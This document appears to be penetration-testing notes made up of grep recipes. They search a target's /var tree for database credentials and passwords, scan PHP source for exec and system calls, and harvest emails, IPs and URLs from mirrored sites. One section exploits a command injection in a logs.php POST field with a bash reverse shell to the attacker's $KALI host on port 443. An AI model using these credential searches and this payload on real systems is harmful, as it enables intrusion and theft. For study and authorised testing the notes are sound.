 #### Multiple strings
```bash -target
grep "username\|password\|is_admin" backup-2022-12-19
```
```bash - target
grep -E "username|password|is_admin" backup-2022-12-19
```
#### Grep'n for passwords
```bash - target
cd /var/
```
```bash - target
grep -rli "db_login" * 2>/dev/null
```
```bash - target
grep -rli "db_user" * 2>/dev/null
```
```bash - target
grep -rli "db_password" * 2>/dev/null
```
```bash - target
grep -rli "DBUSER" * 2>/dev/null
```
```bash - target
grep -rli "DBPASS" * 2>/dev/null
```
```bash - target
grep -rli "password" * 2>/dev/null
```
```bash - target
grep -rli "pass" * 2>/dev/null
```
```bash - target
grep -rli "pwd" * 2>/dev/null
```
#### Grep'n for PHP vulnerabilities
```bash - kali
grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open * | more
```
`download.php: flush(); // Flush system headers`
`logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");`
`logs.php: flush(); // Flush system headers`
Here we see some comments, but the middle entry for logs.php is a legit finding.
We would just go to the logs.php page, capture the post request in Burp, and modify the request to:
```bash - burp
delim=comma;bash -c 'bash -i >%26 /dev/tcp/$KALI/443 0>%261'
```
#### Grep'n for HTML comments from HTTrack
```bash - kali
grep -r '<!--.*-->' ./ | grep -v "HTTrack" | more
```
#### Grep'n for emails from HTTrack
```bash - kali
grep -Eiorh '([[:alnum:]_.-]+@[[:alnum:]_.-]+?\.[[:alpha:].]{2,6})' "$@" * | sort | uniq
```
#### Grep'n for php vulnerabilities
```
https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
```
### Grep'n for http/s
```bash - kali
grep -Erio 'https?://[^ "\(\)\<\>]*' 2> /dev/null
```
#### Grep'n for IPs
```bash - kali
grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" 2> /dev/null
```
#### Grep'n for details in access logs
```bash - kali
grep -o '[^/]*\.js' access_log.txt | sort -u
```